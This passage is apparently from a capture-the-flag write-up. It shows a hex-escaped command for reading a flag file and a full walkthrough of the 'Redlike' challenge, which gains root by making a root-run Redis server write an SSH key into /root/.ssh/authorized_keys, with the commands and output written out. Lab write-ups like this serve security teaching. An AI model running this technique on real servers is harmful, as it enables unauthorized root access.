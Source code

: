 ```bash
> cat $(echo -e "\x2fopt\x2fflag.txt")
```

### Redlike

This challenge was my favorite. All we got is an SSH command and a password for connecting to a remote server. Our task was to gain root access and read the flag in `/root`. I had no idea how to start, so I began to look into basic things after connecting to the remote machine. I've seen that the machine is running Ubuntu 20.4 LTS with a recent kernel. I tried to look for local privilege escalations in these but with no luck.

After some search, I stumbled upon [this](https://payatu.com/guide-linux-privilege-escalation) article about a few basic ideas on how to start in these scenarios. I tried the techniques one-by-one, and 2 of them looked like a possible solution. First, I tried to see if I could exploit the cron jobs to create a root shell, but I had no success. After that, my attention shifted to the other possibility. I'd previously seen that there's a Redis server running as root. In the article, they showed us an example for MySQL running as root, but I thought it was worth trying.

After some research, I found [this](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html) article explaining how we can use Redis to add our own ssh key to any user's authorized keys. I followed the steps, and after only a few minutes, I could SSH to localhost as root and read the flag.

```bash
user@redlike-44e6479a7e6be38a-6559588cdd-ww42g:~$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/user/.ssh/id_rsa): ./id_rsa
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in ./id_rsa
Your public key has been saved in ./id_rsa.pub
The key fingerprint is:
SHA256:j7Uxe4PP+dP9nO+uvWzTbJUdbN5n2FyckwGXbnTFAyg user@redlike-44e6479a7e6be38a-6559588cdd-ww42g
The key\'s randomart image is:
+---[RSA 3072]----+
|            .ooo+|
|         E .  .=o|
|          .   +.*|
|               Xo|
|        S +   ++B|
|         + *  .oO|
|        . = o  +=|
|           + oo=B|
|            +.+X%|
+----[SHA256]-----+
user@redlike-44e6479a7e6be38a-6559588cdd-ww42g:~$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
user@redlike-44e6479a7e6be38a-6559588cdd-ww42g:~$ redis-cli flushall
OK
user@redlike-44e6479a7e6be38a-6559588cdd-ww42g:~$ cat foo.txt | redis-cli -x set crackit
OK
user@redlike-44e6479a7e6be38a-6559588cdd-ww42g:~$ redis-cli
127.0.0.1:6379> config set dir /root/.ssh/
OK
127.0.0.1:6379> config get dir
1) "dir"
2) "/root/.ssh"
127.0.0.1:6379> config set dbfilename "authorized_keys"
OK
127.0.0.1:6379> save
OK
127.0.0.1:6379>
user@redlike-44e6479a7e6be38a-6559588cdd-ww42g:~$ ssh -i id_rsa root@127.0.0.1
Enter passphrase for key 'id_rsa':
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.120+ x86_64)
```